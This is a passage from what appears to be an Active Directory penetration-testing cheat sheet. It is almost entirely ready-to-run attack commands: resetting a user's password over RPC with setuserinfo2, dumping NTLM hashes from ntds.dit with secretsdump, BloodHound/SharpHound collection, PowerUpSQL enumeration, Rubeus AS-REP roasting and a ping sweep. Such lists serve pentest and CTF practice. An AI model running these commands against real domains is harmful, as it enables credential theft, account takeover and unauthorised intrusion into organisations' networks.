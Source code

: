 ```text
enumprivs
```

### Change user access

```text
setuserinfo2 audit2020 23 'redteam'
```

### Show printers

```text
enumprinters
```

## NTLM extraction from ntds.dit file

```text
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -ntds ntds.dit -system system -
hashes lmhash:nthash LOCAL -output nt-hash
```

## Gather information using SharpHound

```text
https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.exe
.\SharpHound.exe
or
SharpHound.exe -c All --zipfilename output.zip
```

## Gather information about Sql Server

```text
https://github.com/NetSPI/PowerUpSQL/blob/master/PowerUpSQL.ps1
. .\PowerUpSQL.ps1
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

## Obtain AS-REP Roast hash

```text
https://github.com/r3motecontrol/Ghostpack-CompiledBinaries
.\Rubeus.exe asreproast
```

## List of available ips without using nmap

```text
for /L %i in (1,1,255) do @ping -n 1 -w 200 10.10.10.%i > nul && echo 10.10.10.%i is up.
```

Or
